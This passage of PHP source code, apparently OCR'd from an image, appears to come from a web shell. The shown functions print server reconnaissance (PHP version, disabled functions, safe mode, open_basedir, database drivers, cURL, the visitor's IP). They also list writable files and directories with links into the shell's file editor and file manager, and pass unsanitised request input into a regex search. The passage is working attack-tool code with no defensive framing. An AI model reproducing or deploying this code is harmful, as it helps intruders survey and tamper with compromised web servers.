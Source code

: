 echo "&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;${mil}PHP\"&gt;PHP&lt;/a&gt; version:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;a href=\"?=".php_logo_guid()."\" target=\"_blank\"&gt;".PHP_VERSION."&lt;/a&gt; (&lt;a href=\"".hlinK("seC=phpinfo&workingdiR=$cwd")."\"&gt;more...&lt;/a&gt;)&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Zend version:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";if (function_exists('zend_version')) echo "&lt;a href=\"?=".zend_logo_guid()."\" target=\"_blank\"&gt;".zend_version()."&lt;/a&gt;";else echo "Not Found";echo "&lt;/td&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Include path:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;".str_replace($inpa," ",DEFAULT_INCLUDE_PATH)."&lt;/td&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;PHP Modules:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";$ext=get_loaded_extensions();foreach($ext as $v)echo $v." ";echo "&lt;/td&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Disabled functions:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;";if(!empty($disablefunctions))echo $disablefunctions;else echo "Nothing"; echo"&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;Safe mode:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;$safemode&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Open base dir:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;$basedir&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;DBMS:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;";$sq="";if(function_exists('mysql_connect')) $sq= "${mil}MySQL\"&gt;MySQL&lt;/a&gt; ";if(function_exists('mssql_connect')) $sq.= " ${mil}MSSQL\"&gt;MSSQL&lt;/a&gt; ";if(function_exists('ora_logon')) $sq.= " ${mil}Oracle\"&gt;Oracle&lt;/a&gt; ";if(function_exists('sqlite_open')) $sq.= " SQLite ";if(function_exists('pg_connect')) $sq.= " ${mil}PostgreSQL\"&gt;PostgreSQL&lt;/a&gt; ";if(function_exists('msql_connect')) $sq.= " mSQL ";if(function_exists('mysqli_connect'))$sq.= " MySQLi ";if(function_exists('ovrimos_connect')) $sq.= " Ovrimos SQL ";if ($sq=="") $sq= "Nothing"; echo "$sq&lt;/td&gt;&lt;/tr&gt;";if (function_exists('curl_init')) echo "&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;cURL support:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;Enabled ";if(function_exists('curl_version')){$ver=curl_version();echo "(Version:". $ver['version']." OpenSSL version:". $ver['ssl_version']." zlib version:". $ver['libz_version']." host:". $ver['host'] .")";}echo "&lt;/td&gt;&lt;/tr&gt;";echo "&lt;tr&gt;&lt;td&gt;User information:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#666666\"&gt;IP:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;$uip&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"25%\" bgcolor=\"#808080\"&gt;Agent:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;".getenv('HTTP_USER_AGENT')."&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
}
function checksuM($file){
global $et;
echo "&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"100%\"&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#666666\"&gt;&lt;b&gt;MD5:&lt;/b&gt; &lt;font color=#F0F0F0&gt;".md5_file($file)."&lt;/font&gt;&lt;br&gt;&lt;b&gt;SHA1:&lt;/b&gt; &lt;font color=#F0F0F0&gt;".sha1_file($file)."&lt;/font&gt;$et";
}
function listdiR($cwd,$task){
$c= getcwd();
$dh = opendir($cwd);
while ($cont=readdir($dh)){
if($cont=='.' || $cont=='..')continue;
$adr = $cwd.DIRECTORY_SEPARATOR.$cont;
switch ($task){
case '0':if(is_file($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";if(is_dir($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '1':if(is_writeable($adr))if(is_file($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";if(is_dir($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '2':if(is_file($adr) &&  is_writeable($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '3':if(is_dir($adr) && is_writeable($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '4':if(is_file($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '5':if(is_dir($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";break;
case '6':if(preg_match("@".$_REQUEST['search']."@",$cont)){if(is_file($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";if(is_dir($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";}break;